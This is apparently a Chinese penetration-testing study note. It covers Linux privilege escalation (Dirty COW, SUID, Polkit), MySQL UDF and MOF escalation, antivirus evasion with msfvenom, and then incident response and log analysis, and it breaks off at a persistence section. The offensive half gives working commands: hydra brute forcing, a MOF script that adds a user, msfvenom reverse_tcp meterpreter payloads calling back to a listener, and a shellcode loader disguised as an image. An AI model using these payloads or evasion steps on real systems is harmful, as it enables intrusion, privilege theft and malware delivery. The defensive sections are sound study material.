msfadmin/msfadmin
```

- 漏洞简介
  - CVE-2016-5195，即Dirty COW，俗称[脏牛]漏洞。它是Linux Kernel中的条件竞争漏洞，攻击者可以利用Linux Kernel中的COW（Copy-on-Write）技术中存在的逻辑漏洞完成对文件的越权读写，恶意用户可以用此漏洞来获取高权限
  
- 漏洞原理
  - Linux内核的子系统在处理写入时复制至产生了竞争条件，恶意用户可以利用此漏洞获取高权限

- 影响版本
  - 自2007年9月Linux Kernel2.6.22被引入，直到2018年Linux Kernel4.8.3 4.7.9 4.4.26之后才被彻底修改，影响在此期间的所有基于其中版本范围的Linux发行版

- 脏牛提权：提权前是msfadmin权限


- 上传提权exp dirty.c, 使用gcc进行编译：gcc -pthread dirty.c -o dirty -lcrypt


- 运行./dirty + 自定义密码
```
例如：./dirty zyf123
```

- 生成了一个名为firefart的uid为0的root权限用户

- 提权成功

### SUID提权
- 提权原理
  - SUID是Linux的一种权限机制，具有这种权限的文件会在执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行root提权

- 举例
```
vim文件具备s权限，即vim命令具备s权限，其拥有者是root；
www-data用户使用vim命令时，可以短暂获得root权限，如果能抓住这短暂的时间执行系统命令，其实就相当于是以root用户的权限去做执行操作。
```

- 已知可用来提权的Linux可行性的文件列表如下
```
nmap
vim
find
bash
more
less
nano
cp
```

- 查找具有root权限的SUID的命令
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

- 利用find命令提权
```
find / -name one.php -exec "whoami" \;
```


### Linux - Polkit本地提权
- 所用环境：docker pull docker.io/chenaotian/cve-2021-4034

- Polkit：是用于在类Unix操作系统中控制系统范围特权的组件，它为非特权进程提供了与特权进程进行通信的方式

- CVE-2021-4034：Polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获
取root权限。

- 利用：上传exp，给权限执行cve-2021-4034-poc即可提权获得root权限

- 直接执行容器内现成的exp脚本文件


## 数据库权限提升
### 如何获取Mysql的账号密码
- 获取webshell之后，直接在查看配置文件
```
例如：DVWA网站配置文件：/var/www/html/config/config.inc.php
```


- 通过SQL注入获取Mysql账号密码
```
使用sqlmap
通过--password获取数据库账号密码
```

-- 通过暴力破解获取mysql账号密码
```
通过hydra进行暴力破解
hydra 192.168.0.90 mysql -l root -P mysql.txt -o save.log -f -vV -e nsr
```

### UDF提权
- 实验环境：win7 + phpstudy + DVWA

- UDF介绍
  - UDF(user-defined function)是MySQL的一个扩展接口，也可称之为用户自定义函数，它是用来拓展MySQL的技术手段，可以说是数据库功能的一种扩展。用户通过自定义函数实现Mysql中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，通过添加命令执行函数可以执行系统命令，从而进行提权

- 原理
  - 用户自定义的函数被当作本机函数执行，在使用CREATE FUNCTION调用dll中的函数后，mysql账号转化为system权限，从而实现提权

- 提权条件
  - Mysql版本大于5.1
  - 掌握的mysql数据库的账号有对mysql的insert和delete权限以创建和删除函数
  - secure-file-priv函数不为null
  - 网站本身存在Getshell漏洞，可以通过webshell可以将udf.dll上传到Mysql中的lib/plugin目录下

#### UDF提权流程

- 通过网站漏洞获取一个shell，如webshell

- 使用navicat或其他软件连接数据库
```
记得开启远程连接权限
grant all privileges on *.* to "root"@"%" identified by "密码";

# 创建用户
CREATE USER 'admin'@'%' IDENTIFIED BY 'pwd123';

# 授予用户dvwa库权限
grant all on dvwa.* to 'admin'@'%';

# Mysql配置文件增加 srcure-file-priv选项
secure_file_priv=
```

- 使用mysql查询语句进行信息收集
```
新建查询，查询Mysql系统位数：64位数
show variables like '%compile%'; 
```


- 查看plugin的绝对路径
```
show variables like 'plugin%';
```

```
绝对路径为：C:\Users\mystical\Desktop\phpstudy\phpstudy_pro\Extensions\MySQL5.7.26\lib\plugin\
若无该目录，自己新建
```

- 查询secure_file_priv的值是否为空
```
show variables like '%secure%';
```

- 因为是null值，所以需要修改，如果是通过webshell传递文件，该项可以忽略

- 在mysql配置文件中添加srcure-file-priv=''


- 重启mysql后刷新，然后执行sql查询语句发现null不见了
```
show variables like '%secure%';
```


- 制作提权dll(动态链接库)
- sqlmap中编码后的dll文件路径
```
D:\doc\sqlmap\sqlmapproject\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
```
- 利用cloak.py进行解码获得mysqludf.sys.dll文件，cloak.py在sqlmap/extra/cloak目录下
```
python cloak.py -d -i lib_mysqludf_sys.dll_
```
- 使用蚁剑在之前查询目录中（自己创建），上传编码后的lib_mysqludf_sys.dll


- 创建sys_eval函数，提权
```
create function sys_eval returns string soname 'lib_mysqludf_sys.dll';
```


- 调用函数进行提权
```
select sys_eval('whoami');
```


- 这里提权后的用户是mystical-pc/mystical,原因是创建mysql的时候使用的是mystical用户创建的，如果创建的时候是管理账户，则提权后用户就是管理权限用户


### MOF漏洞及启动项提权
- MOF提权
  - 条件
  ```
  1. windows 03及以下版本
  2. mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
  3. secure-file-priv参数不为null
  ```
  - 原理
  ```
  MOF文件每五秒就会执行，而且是系统权限，我们通过Mysql使用load_file将文件写入/wbme/mof目录，然后系统每隔五秒就会执行一次我们上传的MOF文件。MOF文件中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权。
  ```
  - mof利用代码
  ```js
  #pragma namespace("\\\\.\\root\\subscription")
  instance of __EventFilter as $EventFilter
  {
  EventNamespace = "Root\\Cimv2";
  Name = "filtP2";
  Query = "Select * From __InstanceModificationEvent "
  "Where TargetInstance Isa \"Win32_LocalTime\" "
  "And TargetInstance.Second = 5";
  QueryLanguage = "WQL";
  };
  instance of ActiveScriptEventConsumer as $Consumer
  {
  Name = "consPCSV2";
  ScriptingEngine = "JScript";
  ScriptText =
  "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user   test 
  123456 /add\")";
  };
  instance of __FilterToConsumerBinding
  {
  Consumer = $Consumer;
  Filter = $EventFilter;
  };
  ```
  - 提权过程
  ```
  将上面的脚本通过Webshell上传到有读写权限的目录下
  C:/phpstudy_pro/1.mof

  然后使用sql语句将文件写入到c:/windows/system32/wbem/mof/下
  select load_file("C:/phpstudy_pro/1.mof") into dumpfile "c:/windows/system32/wbem/mof/nullevt.mof"
  ```
  - 当我们成功写入mof文件时，mof就会直接被执行，且每5秒创建一次test用户。


## 免杀
- 所需环境：Kali linux + Windows

### 利用MSF编写远控程序
- msfvenom参数
```
-p, --payload <payload> 指定需要使用的payload(攻击荷载)
-l, --list [module_type] 列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all
-n, --nopsled <length> 为payload预先指定一个NOP滑动长度
-f, --format <format> 指定输出格式 (使用 --list formats 来获取msf支持的输出格式列表)
-e, --encoder [encoder] 指定需要使用的encoder（编码器）
-a, --arch <architecture> 指定payload的目标架构
--platform <platform> 指定payload的目标平台
-s, --space <length> 设定有效攻击荷载的最大长度
-b, --bad-chars <list> 设定规避字符集，比如: '\x00\xff'
-i, --iterations <count> 指定payload的编码次数
-c, --add-code <path> 指定一个附加的win32 shellcode文件
x, --template <path> 指定一个自定义的可执行文件作为模板
-k, --keep 保护模板程序的动作，注入的payload作为一个新的进程运行--payload-options 列举payload的标准选项
-o, --out <path> 保存payload
-v, --var-name <name> 指定一个自定义的变量，以确定输出格式
--shellest 最小化生成payload
-h, --help 查看帮助选项
--help-formats 查看msf支持的输出格式列表
```

- msfvenom生成5555.exe
```
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.85.137 lport=5555 -f exe -o 5555.exe
```

- 实战过程中，该5555.exe极易被杀毒软件查杀，很难使用，因此需要免杀处理

### 利用MSF实现免杀
- 免杀技术简介
  - 免杀技术全称为反杀毒技术，Anti-Virus简称“免杀”，指是一种能使病毒木马免于被杀毒软件查杀的技术。免杀技术的涉猎面广泛，其中包含反汇编、逆向工程、系统漏洞等技术，内容基本上都是修改病毒，木马的内容改变特征码，从而躲避杀毒软件的查杀


- 生成未免杀处理的后门程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxx lport=xxx -f exe -o xxx
```

- 利用在线杀毒引擎检测查杀概率
```
https://www.virustotal.com/gui/home/upload
```

### 利用MSF自带的功能进行免杀（不好用）
- 介绍
  - Meatsploit 框架下免杀的方式之一就是使用MSF编码器，其功能是对攻击载荷文件进行重新的排列编码，改变可执行文件中的代码形状，避免被杀软认出。MSF 编码器可以将原可执行程序重新编码，生成一个新的二进制文件，该文件运行后，MSF 编码器会将原始程序解码到内存中并执行

- 指令
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.85.137 -e x86/shikata_ga_nai -i 20 -f exe -o 5556.exe

-e：指定编码器x86/shikata_ga_nai 
-i：指定编码次数
```

- 效果：
  - 可以发现使用编码器免杀具备一定的效果，报毒引擎数量有所下降，但是效果微乎其微，近年来由于各种杀毒软件的更新，msf编码器免杀已经被各大杀毒软件标记，免杀效果差。


### MSF编码器结合shellcode加载器进行免杀
```
# 下载shellcode加载器
https://github.com/crow821/crowsec/tree/master/BypassAV_360_huornog
```
利用编码器生成jpg文件
```
msfvenom -p windows/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 7 -b '\x00' lhost=192.168.0.99 lport=5558 -f raw -o crowsec.jpg
```

- 攻击过程
  - 将生成的图片马和shellcode加载器上传到目标服务器（crowsec.jpg和ms.exe放在同一目录，点击ms.exe即可上线）
  - 将msvcr110.dll放在C:\\windows\SysWOW64下
  - 使用kali监听


## 应急响应
### 入侵排查
- 当企业发生黑客入侵、系统崩溃或其他影响业务正常运行的安全事件时，急需第一时间进行处理，使企业的网络信息系统在最短时间内恢复正常工作，进一步<font color=tomato>查找入侵来源，还原入侵事故过程，同时给出解决方案与防范措施</font>，为企业挽回或减少经济损失。

- 常见应急响应事件分类：
  - Web入侵：网页挂马、主页窜改、Webshell
  - 系统入侵：病毒木马、勒索软件、远控后门
  - 网络攻击：DDOS攻击、DNS劫持、APP欺骗

#### Windows入侵排查
- 使用环境：Windows Server 2008
- 基础掌握：Windows和Linux查看进程，查看服务，查看启动项，查看端口等基础掌握

- <font color=tomato>检查系统账号安全</font>
  - 查看服务器是否有弱口令，远程管理端口是否对公网开放
    - 检查方法： 根据实际情况咨询相关服务器管理员
  - 查看服务器是否存在可疑账号、新增账号
    - 检查方法：<font color=tomato>打开cmd窗口，输入lusrmgr.msc命令</font>，（<font color=tomato>或者从win -> 计算机管理 -> 本地用户和组</font>）查看是否有新增/可疑的账号，如有管理员群组的（Administrators）里的新增账户，请立即禁用或删除
    ```
    windows用户管理命令：
    net user 查看当前设备的所有用户（无法查看隐藏用户）

    net user /add geektime1  新增用户

    net user /add geektime2$  新增隐藏用户
    （可以在lusrmgr.msc的本地用户和组中可以查看隐藏用户）

    切换用户也可以排查隐藏用户
    ```
  - 查看服务器是否存在隐藏账号，克隆账号
    - 检查方法1：使用D盾查杀
    - 检查方法2：打开注册表，查看管理员对应键值
  - 结合日志，查看管理员登录时间，用户名是否存在异常（需要额外判断，管理员的密码是否可能爆破成功，若无可能，则这步可以省略）
    - 检查方法1：<font color=tomato>Win+R打开运行，输入eventvwr.msc，</font>回车运行，打开时间查看器，查看windows日志（主要查看系统日志和安全日志，次看应用程序日志），主要看其中的事件ID和任务类别
    
    
    - 实验：使用hydra或超级弱口令，观察爆破（远程桌面RDP服务）后，查看事件查看器中windows日志的特征
    
    
    - 导出windows安全日志，利用微软官方工具Log Parser进行分析
      - 下载后，将日志文件保存到安装目录下， 在该目录下，使用命令行，执行指令，进行安全日志分析
      ```
      Logparser.exe -i:evt "select top 100 * from Security.evtx" -o:DATAGRID

      参数使用
      -i 输入源
      中间部分：sql语句
      -o:输出格式
      ```
      


- <font color=tomato>查看异常端口、进程</font>
  - 检查网络连接情况，是否有远程连接，可疑连接
    - 实验环境：使用kali制作一个后门程序，在win2008连接
    - 检查方法1： 运行`netstat -ano`
    
    - 可以看到建立连接的进程，然后通过`tasklist | findstr 3052`
    
    - 可以定位到5555.exe程序这个可疑文件
    - 执行`tasklist /svc | finder 3052` 对这个程序的详细信息进行查看（tasklist /svc，可以打印出进程和服务对应的信息）
    
    - 进程无描述，再度可疑
    - 开始--运行--输入`msinfo32`，依次点击“软件环境--正在运行任务”就可以查看到进程详细信息，比如（<font color=tomato>进程路径、进程ID、文件创建日期以及启动时间</font>）
    
    - 或者也可以直接用D盾这类安全软件进行扫描
    - 或者用微软官方的Process Explorer工具进行排查
    
    - 该系统大量引用系统的dll文件，启动时间不正常，且无程序描述，而且使管理员权限，综合考虑，很可疑
    - 总结：可疑进程，可观察以下信息
    ```
    1.没有签名验证信息的进程
    2.没有描述信息的进程
    3.进程的属主
    4.进程路径是否合法
    5.CPU或内存资源占用时间过高的进程（比如挖矿）
    ```
    - 查看window服务所对应的端口
    ```
    %systemroot%/system32/drivers/etc/services(一般%systemroot% 就是 C:\windows路径)
    ```
    - 也可以把恶意文件放入在线的查杀引擎中进行排查：例如：https://www.virustotal.com/gui/home/upload

- <font color=tomato>检查启动项、计划任务、服务</font>
  - 检查服务器是否有异常启动项
    - 检查方法1：登录服务器，“开始--所有程序--启动”，默认情况下此目录是一个空目录，确认是否有业务程序在该目录下
    
    - 检查方法2：单击“菜单--运行”，输入`msconfig`，查看是否存在命名异常的启动项目，是则取消勾选命名异常启动项目(查看制造商是否异常或为空值，或者直接问管理员)，并到命令中显示的路径中删除文件
    
    
    - 检查方法3：单击“开始--运行”，输入`regedit`，打开注册表，查看开机启动项是否正常，特别注意如下三个注册表项（找一台没有被攻击的机器，和问题机器进行对比，如果出现异常，在找管理员进行询问）
    ```
    HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/run
    HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Run
    HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Runonce
    ```
    - 检查上述注册表项右侧是否有启动异常项目，如有请删除，并建议安装杀毒软件进行病毒查杀，清除残留病毒或木马
    - 检查方法4：利用安全软件查看启动项，开机时间管理等
    - 检测方法5： 组策略，运行gpedit.msc，查看开关机属性中有没有异常脚本被植入（在关机的时候植入脚本的目的是，躲避杀毒软件的查杀，因为关机过程中，系统会一个一个的关闭所有进程，所以有可能在杀毒软件关闭，但是系统还没有关闭的时候，脚本成功运行）
     

  - 检查服务器有没有异常的计划任务
    - 检查方法1：在桌面打开【运行】，输入control打开控制面板，在系统与安全中查看计划任务，便可以查看到具体的计划任务和相关属性（如果不熟悉windows系统，可以找一台没有问题的机器进行比对，找到问题后在询问管理员，主要查看路径信息，文件描述等，观察是否有异常项，比如描述为空）
    

  - 检查服务器是否有异常服务
    - 检查方法：在桌面打开运行，输入services.msc，查看服务状态和启动类型，检查是否有异常服务（一般来说，异常服务通常不带描述）
    
  

#### Linux系统的入侵排查
- 账号安全
  - 基本使用
  ```
  1. 用户信息文件 /etc/passwd

  2. 影子文件 /etc/shadow
  date -d "1970-01-01 19049days" 查看19049代表的具体日期

  3. who    查看当前登录用户
     w      查看系统信息，想知道某一时刻用户的行为
     uptime 查看登录时间，多少用户，负载状态
  ```
  - 入侵排查
  ```
  1. 查询特权用户
  [root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd

  2. 查询可以远程登录的账号信息
  [root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
  
  3. 除root账号外，其他账号是否存在sudo权限，如非管理需要，普通账号应删除sudo权限
  [root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"

  4. 禁用或删除多余及可疑的账
  usermod -L user    禁用账号，账号无法登录，/etc/shadow 第二栏为 ! 开头
  userdel user       删除user用户
  userdel -r user    删除 user 用户，并且将 /home 目录下的 user 目录一并删除
  ```
  - 历史命令
  ```
  通过.bash_history文件查看账号执行的系统命令
  1. 查看当前用户的历史命令
  history

  2. 打开/home各账号目录下，.bash_history，查看普通账号执行的历史命令

  3. 历史操作命令清除：history -c（需要一定权限）
  但此命令并不会清除保存在文件中的记录，因此需手动清除.bash_history文件中记录

  4. 进入用户目录下，导出历史命令
  cat .bash_history >> history.txt
  ```
  - 检查异常网络连接
  ```
  使用netstat网络连接命令，分析可疑端口、IP、PID
  netstat -antlp

  查看pid所对应的进程文件路径
  运行ls -l /proc/$PID/exe 或 file/proc/$PID/exe ($PID为对应pid号)
  ```
  - 检查异常进程
  ```
  使用ps命令，分析进程
  ps aux | grep pid
  ```
  - 检查开机启动项
    - 使用`runlevel`可以查看运行级别
    - 开机启动配置文件
    ```
    /etc/rc.d/rc.local
    /etc/rc.d/rc[0~6].d
    ```
    - 使用`chkconfig`命令用于检查、设置系统的各种服务
    ```
    chkconfig --list [name]  // 服务列表（可根据实际需要，停掉不用服务）
    chkconfig --add [name]   // 服务添加（如缺省，则从缺省的init脚本自动建立）
    chkconfig --del [name]   // 服务删除（并把相关符号连接从/etc/rc[0-6].d删除）
     ```
     - 当我们需要设置开机启动的脚本时，只需要将可执行脚本放在/etc/init.d目录下，然后在/etc/rc.d/rc*.d目录下建立软连接即可。
     - 实验：新建一个自启动的脚本文件
    ```
    1. 在init.d目录下，新建一个脚本文件
    2. 给新建的脚本文件赋权 chmod 777 test.sh
    3. 将新建的脚本文件添加到服务列表
    chkconfig --add test.sh
    ```
    
    - 在对应的文件目录下生成脚本的软连接文件
  
    
    - 重启之后就会在tmp文件下生成一个test.txt文件，实验成功
  
    
  
    - 彻底删除脚本启动项
    ```
    1. chkconfig --del [name]  // 先从服务删除
    2. 进入/etc/init.d中，删除脚本文件
    ```
    

  - 检查定时任务
    - 利用`crontab`创建计划任务（设置周期性执行的指令）
    ```
    crontab -l  列出某个用户定时任务的详细内容

    Tips: 默认编写的crontab文件会保存在（/var/spool/cron/用户名，例如：/var/spool/cron/root）

    crontab -r  删除每个用户的cron任务（谨慎：删除所有的计划任务）

    crontab -e  使用编辑器编辑当前的crontab文件

    案例：
    */1 * * * * echo "hello world" >> /temp/test.txt
    （五个星号分别表示：分；时；日；月；周；*/1表示每分钟）
    ```
    - 入侵排查
    ```
    /var/spool/cron/* 
    /etc/crontab
    /etc/cron.d/*
    /etc/cron.daily/* 
    /etc/cron.hourly/* 
    /etc/cron.monthly/*
    /etc/cron.weekly/
    /etc/anacrontab
    /var/spool/anacron/*
    
    小技巧；
    more /etc/cron.daily/*  查看/etc/cron.daily目录下所有文件
    ```
    

  - 检查服务
    - 服务自启
    ```
    修改方法1：
    chkconfig [--level 运行级别] [独立服务名] [on|off]
    chkconfig --level 2345 httpd on
    chkconfig httpd on (默认level是2345)

    修改方法2：
    修改 /etc/rc.d/rc.local  文件
    加入 /etc/init.d/httpd start
    ```
    - 入侵排查
    ```
    查询RPM包安装的服务
    chkconfig --list  查看服务自启状态，可以看到所有的RPM包安装的服务
    ps aux | grep crond  查看当前服务

    查看源码包安装的服务
    源码包服务的启动管理：/usr/local/
    源码包服务的自启动管理：/etc/rc.d/init.d
    ```

  - 检查异常文件
    - 查看敏感目录，如/tmp目录下的文件，同时注意隐藏目录，以..为名的文件夹具有隐藏属性
    - 排查Webshell，远控木马的创建时间
    ```
    如何找出同一时间范围内创建的文件
    可以使用find命令来查找，如：find /opt -iname "*" -atime 1 -type f
    (找出 /opt下一天前访问过的文件)
    ```
  - 检查系统日志
    - 日志默认存放位置： /var/log/
    - 查看日志配置情况：more /etc/rsyslog.conf
  
    

    - 日志排查技巧
    ```
    1、定位有多少IP在爆破主机的root账号：    
    grep "Failed password for root" /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more

    2、定位有哪些IP在爆破：
    grep "Failed password" /var/log/secure | grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c

    3、爆破用户名字典是什么？
    grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/;
    print "$1\n";}' | uniq -c | sort -nr
    
    4、登录成功的IP有哪些：   
    grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr| more

    5、登录成功的日期、用户名、IP：
    grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
    ```
  
  - 工具查杀
    - Rootkit查杀
      - Rootkit介绍
      ```
      Rootkit 是一种恶意软件，设计用于在计算机系统中获取根访问权限（在 Unix 和类 Unix 系统中）或管理员级访问权限（在 Windows 中）。Rootkit 的主要目的是隐藏其存在和其他恶意活动，从而使其难以被发现和删除。Rootkits 通常与其他恶意软件一起工作，如病毒、蠕虫或特洛伊木马，以获取和维持对系统的控制。

      Rootkit 的一些主要特征包括：

      隐蔽性：Rootkits 的核心特性是它们的隐蔽性。它们隐藏自己的存在以及它们所做的更改，包括文件、进程、系统日志或注册表项的隐藏。

      持久性：Rootkits 往往会修改系统启动过程，以确保在每次启动时自动加载，从而增加它们在系统中的持久性。

      权限升级：它们通常会尝试获取最高级别的权限，这对于执行隐藏活动和防止被普通安全软件检测到是必要的。

      监控和控制：Rootkits 可能会监控系统活动，拦截用户或系统的数据，并允许远程访问和控制被感染的机器。

      阻止安全措施：它们可能会试图禁用或绕过安全软件，包括防病毒程序和防火墙。

      网络活动：Rootkits 可能会隐藏网络连接和数据传输，以支持窃取数据或远程控制的活动。

      系统级操作：高级 Rootkits 会操作系统核心级别（例如内核级 Rootkits），在系统的最低级别上工作，使检测和移除变得非常困难。

      检测和防御
      检测 Rootkit 是一项挑战，因为它们设计用来避开常规的安全检测。使用专门的 Rootkit 检测工具、保持系统和安全软件的更新、定期进行系统扫描和监控异常系统行为是防御 Rootkit 的重要措施。此外，遵循良好的网络安全实践，如不下载不明来源的文件和不打开可疑的电子邮件附件，也对防止 Rootkit 感染至关重要。
      ```
      - chkrootkit
      - 网址：http://www.chkrootkit.org
      ```
      使用方法：
      wget ftp://ftp.pangeia.com.br/pub/seg/pac/chkrootkit.tar.gz
      tar zxvf chkrootkit.tar.gz
      cd chkrootkit-0.52
      make sense
      #编译完成没有报错的话执行检查
      ./chkrootkit
      ```
      - rkhunter
      - 网址：http://rkhunter.sourceforge.net
      ```
      Wget 
      https://nchc.dl.sourceforge.net/project/rkhunter/rkhunter/1.4.4/rkhunter-1.4.4.tar.gz
      tar -zxvf rkhunter-1.4.4.tar.gz
      cd rkhunter-1.4.4
      ./installer.sh --install
      rkhunter -c
      ```

    - 病毒查杀
      - Clamav
      - 网址；http://www.clamav.net/download.html
      ```
      # 安装
      yum install -y epel-release
      # 使用阿里云epel源
      wget -O /etc/yum.repos.d/epel.repo http://mirrors.aliyun.com/repo/epel
      7.repo
      yum clean all
      yum makecache
      # 安装clamav
      yum install -y clamav
      # 更新病毒库
      freshclam
      # 扫描方法
      clamscan -r /etc --max-dir-recursion=5 -l /root/etcclamav.log
      clamscan -r /bin --max-dir-recursion=5 -l /root/binclamav.log
      clamscan -r /usr --max-dir-recursion=5 -l /root/usrclamav.log
      # 扫描并杀毒
      clamscan -r --remove /usr/bin/bsd-port
      (不推荐，容易误删)
      clamscan -r --remove /usr/bin/
      clamscan -r --remove /usr/local/zabbix/sbin
      # 查看日志发现
      cat /root/etcclamav.log | grep FOUN
       # 卸载clamav
       yum remove clamav*
      ```
    - Webshell查杀
      - 河马Webshell查杀：http://www.shellpub.com
    - RPM check
      - 系统完整性可以通过rpm自带的-Va来校验检查所有的rpm软件包，查看哪些命令是否被替换了
      ```
      rpm -Va > rpm.log
      ```
      - 如果一切均校验正常，将不会产生任何输出，如果有不一致的地方，就会显示出来，输出格式是8位长字符串，每个字符都用以表示文件与RPM数据库中一种属性比较的结果，如果是.（点）则表示通过测试
      ```
      验证内容中的8个信息的具体内容如下：
      S         
      文件大小是否改变
      M         
      5         
      D         
      L         
      U         
      G         
      T         
      文件的类型或文件的权限（rwx）是否被改变
      文件MD5校验是否改变（可以看成文件内容是否改变）
      设备中，从代码是否改变
      文件路径是否改变
      文件的属主（所有者）是否改变
      文件的属组是否改变
      文件的修改时间是否改变
      ```

- 常见的WebShell查杀工具
  - D盾_Web查杀（只提供Windows版本）
    - 工具下载地址：http://www.d99net.net
  - 河马
    - 工具下载地址：http://www.shellpub.com
    - 兼容性：支持Windows,Linux,在线查杀
  - Web Shell Detector
    - Web Shell Detector具有WebShell签名数据库，可帮忙识别高达%99的WebShell
    - 兼容性：提供PHP，Python脚本，可跨平台。在线检测
    - 官方网站：http://www.shelldetector.com
  - CloudWalker(可以用来免杀代码练习，作为Webshell练习靶场)
    - 一个可执行命令行版本的Webshell检测工具
    - 兼容性：暂时只支持PHP Webshell的检测
    - 在线查杀demo：https://webshellchop.chaitin.cn/demo/
    - GitHub项目地址：https://github.com/chaitin/cloudwwalker

- 如何发现隐藏的Webshell后门
  - MD5校验
    ```
    certuil -hashfile D_Safe_Manage.exe MD5 (得到一个软件的特征值)
    用来查看软件/文件是否被篡改过 
    ```
    - 我们可以将所有网站文件计算一次hash值保存，当出现应急情况时，重新计算一次hash值，并与上次保存的hash值进行对比，从而输出新创建的、修改过及删除的文件列表
    ```python
    # 文件hash值计算
    def md5sum(file):
        m=hashlib.md5()
        if os.path.isfile(file):
            f=open(file,'rb')
            for line in f:
                m.update(line)
            f.close
        else:
            m.update(file)
        return (m.hexdigest())
    ```
  - diff命令
    - 在Linux中，可以使用diff命令来比较两个文本文件的差异。同样，我们可以同构一行命令快速找出两个项目文件的差异
    ```
    diff -c -a -r 2.php 3.php
    ```
  - 文件对比工具
    - Beyond Compare
      -  Beyond Compare 是一套由 Scooter Software 推出的文件比较工具。主要用途是对比两个文件夹或者文件，并将差异以颜色标示，比较范围包括目录，文档内容等。
      - 下载地址：http://www.scootersoftware.com/download.php
    - WinMerge
      - WinMerge 是一款运行于 Windows 系统下的文件比较和合并工具，使用它可以非常方便地比较文件夹和文件，以易于理解的可视文本格式显示差异。
      - 下载地址：https://winmerge.org/downloads

- 勒索病毒自救指南
  - 勒索病毒加密原理图
  
  - 原理：公开密钥密码体系要求密钥成对出现，一个用于加密，另一个用于解密，并且不可能从其中一个推导出另一个。
  ```
  加密过程
  1、病毒作者首先在自己电脑上生成的 私钥Q 和 公钥Q 
  2、病毒在目标电脑上随机生成 私钥Z 和 公钥Z 
  3、将用户电脑上的文件通过 公钥Z 加密 
  4、将用户电脑上的 私钥Z 通过 公钥Q 加密 
  5、删除用户电脑上的 私钥Z 、公钥Q、数据

  解密过程
  支付完赎金之后获得 私钥Q ，通过用户的 加密私钥 解出 私钥Z，通过 私钥Z 解密 用户数据
  ```

### 日志分析
#### Windows日志分析
- 概述：Windows系统日志是记录系统中硬件、软件和系统问题的信息，同时还可以监视系统中发生的事件。用户可以通过它来检查错误发生的原因，或者寻找受到攻击时攻击者留下的痕迹。

- 分类：系统日志、应用程序日志和安全日志

- 系统日志
```
记录操作系统组件产生的事件，主要包括驱动程序、系统组件和应用软件的崩溃以及数据丢失错误等。系统日志中记录的时间类型由Windows操作系统预先定义。

默认位置： %SystemRoot%\System32\Winevt\Logs\System.evtx
```

- 应用程序日志
```
包含由应用程序或系统程序记录的事件，主要记录程序运行方面的事件，例如数据库程序可以在应用程序日志中记录文件错误，程序开发人员可以自行决定监视哪些事件。如果某个应用程序出现崩溃情况，那么我们可以从程序事件日志中找到相应的记录。 

默认位置：%SystemRoot%\System32\Winevt\Logs\Application.evtx
```

- 安全日志
```
记录系统的安全审计事件，包含各种类型的登录日志、对象访问日志、进程追踪日志、特权使用、账号管理、策略变更、系统事件。安全日志也是调查取证中最常用到的日志。默认设置下，安全日志是关闭的，可以使用组策略来启动安全日志，或者在注册表中设置审核策略，以便当安全日志满后使系统停止响应。

默认位置：%SystemRoot%\System32\Winevt\Logs\Security.evtx
```

- 总结；系统日志和应用程序日志存储着故障排除信息，对于系统管理员更为有用。安全日志记录着事件审计信息，包括用户验证（登录、远程访问等）和特定用户在认证后对系统做了什么，对于安全人员而言，更有帮助。

- 审核策略与事件查看器
  - 概述：Windows Server 2008 R2 系统的审核功能在默认状态下并没有启用，建议开启审核策略，若日后系统出现故障、安全事故则可以查看系统的日志文件，排除故障，追查入侵者的信息等。
  - PS：默认状态下，也会记录一些简单的日志，日志默认大小20M
  - 设置：开始 → 管理工具 → 本地安全策略 → 本地策略 → 审核策略，本地安全设置
  


- 日志分析工具：
  - Log Parser
    - 概述：Log Parser（是微软公司出品的日志分析工具，它功能强大，使用简单，可以分析基于文本的日志文件、XML 文件、CSV（逗号分隔符）文件，以及操作系统的事件日志、注册表、文件系统、Active Directory。它可以像使用 SQL 语句一样查询分析这些数据，甚至可以把分析结果以各种图表的形式展
    - 下载地址：
    - Log Parser 2.2下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=24659
    - Log Parser 使用示例：https://mlichtenberg.wordpress.com/2011/02/03/log-parser-rocks-more-than-50-examples
  - LogParser Lizard

#### Linux日志分析
- 日志分析技巧（需要熟练使用Linux文本查询）
  - 后面待补充

#### Web日志分析
- 可以利用dvwa靶场做实验，之后通过练习web日志分析进行溯源

#### MySQL日志分析

### 权限维持
#### Windows权限维持-隐藏篇
- 使用环境：Windows Server 2008
##### 隐藏文件
- 利用文件属性
  - 最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件夹里看不到刚刚的文件了
  
  - 查看属性隐藏的文件
    - 组织--文件夹和搜索选项--查看--显示隐藏的文件...(win2008)

- 真正隐藏文件：
